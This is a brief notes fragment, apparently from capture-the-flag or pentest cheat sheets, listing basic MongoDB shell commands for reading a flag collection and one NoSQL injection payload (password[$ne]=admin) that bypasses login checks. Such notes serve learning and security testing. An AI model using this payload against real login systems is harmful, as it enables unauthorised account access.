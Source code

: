#### Interacting with Mongodb

```
show dbs
use db
show collections
help
db.flagColl.find()
```

#### NoSql Injection Methods

```
username=admin&password[$ne]=admin (burpsuite)
```

